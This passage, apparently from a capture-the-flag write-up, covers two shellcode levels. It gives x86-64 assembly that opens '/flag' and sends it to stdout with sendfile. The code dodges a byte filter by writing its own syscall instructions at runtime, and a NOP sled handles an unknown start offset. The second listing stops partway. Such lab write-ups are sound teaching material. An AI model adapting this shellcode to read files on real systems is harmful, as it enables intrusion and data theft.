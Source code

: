 #### 6
We still need to edit code on runtime, but this time, we don't have write access to the first 4096 of our shellcode. Cool, why don't we just place our main code further then?

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  leaq main(%rip), %rdx
  jmp *%rdx
  .skip 4096
main:
  movq $2, %rax
  leaq flag(%rip), %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret
  
  movq %rax, %rsi
  movq $40, %rax
  movq $1, %rdi

  xor %rdx, %rdx
  movq $1000, %r10

  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret

flag: .asciz "/flag"
```

#### 7
This time, we need to consider that our shellcode might start from 0x800 bytes into the shellcode. All we need is a NOP sled:

```assembly
.global _start


_start:
  nop # 0x800 times
  movq $2, %rax  # open()
  leaq flag(%rip), %rdi # RIP relative addressing
  movq $0, %rsi
  movq $0, %rdx
  syscall
  
  movq %rax, %rsi
  movq $40, %rax # syscall sendfile
  movq $1, %rdi
  movq $0, %rdx
```